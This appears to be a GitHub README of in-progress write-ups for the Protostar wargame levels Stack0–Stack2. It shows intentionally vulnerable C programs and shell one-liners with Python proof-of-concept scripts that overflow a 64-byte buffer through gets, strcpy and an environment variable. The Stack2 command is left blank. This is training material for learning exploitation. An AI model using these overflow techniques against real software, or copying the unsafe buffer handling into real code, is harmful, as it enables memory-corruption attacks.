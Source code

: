 # protostar
protostar sploits and solutions 
https://exploit-exercises.com/protostar

NOTE: write ups in progress. Adding python exploit poc's to each excercise for practice!

#Stack0
---------------------------------------
###Source Code:
```C
int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
###Stack:

| eip | ebp | modified(0) |   buffer    |

###The plan:
fill buffer with gets 
since buffer = 64 bytes, an input of 65 bytes should overflow and overwrite modified

###winning command:
```bash
python -c "print 'a'*64+'1'" | ./stack0
```
###Python exploit:
```Python
from subprocess import Popen, PIPE
################
buffer = 64 
fill = "A"*buffer  
input=fill+"1"      
#################
cproc = Popen("./stack0", stdin=PIPE, stdout=PIPE)
print cproc.communicate(input)[0]   
```
        
        
        
        
        

#Stack1
---------------------------------------
###Source Code:
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
###Stack:
| eip | ebp | modified(0) |   buffer    |

###Plan:
This challenge is similar to the last one with a few differences.  It takes command line args instead of gets, and instead of setting modified to 1, we need to set it to 0x61626364 ("abcd" in ascii). Like the previous challenge, we just fill up buffer and overflow the correct value into modified. Since it's little endian, we need to craft our input so that the value sits in memory correctly. 

###winning command:
```bash
./stack1 $(python -c "print 'a'*64+'dcba'")
```
###Python exploit:
```Python
from subprocess import Popen, PIPE
################
buffer = 64
fill = "A"*buffer
input=fill+'\x64\x63\x62\x61'
#################
cproc = Popen(["./stack1",input], stdin=PIPE, stdout=PIPE)
print cproc.communicate()[0]
```




#Stack2
---------------------------------------
###Source Code:
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
###Stack:
| eip | ebp | modified(0) |   buffer    | variable pointer|

###Plan:
Use an environment variable to overflow buffer via strcpy and fill modified with correct value.

###winning command:
```bash

```
###Python exploit:
```Python
from subprocess import Popen, PIPE
import os
################
buffer = 64
fill = "A"*buffer
input=fill+'\x0a\x0d\x0a\x0d'
print(input)
os.environ ["GREENIE"]=input
#################
cproc = Popen("./stack2", stdin=PIPE, stdout=PIPE)
print cproc.communicate()[0]
```

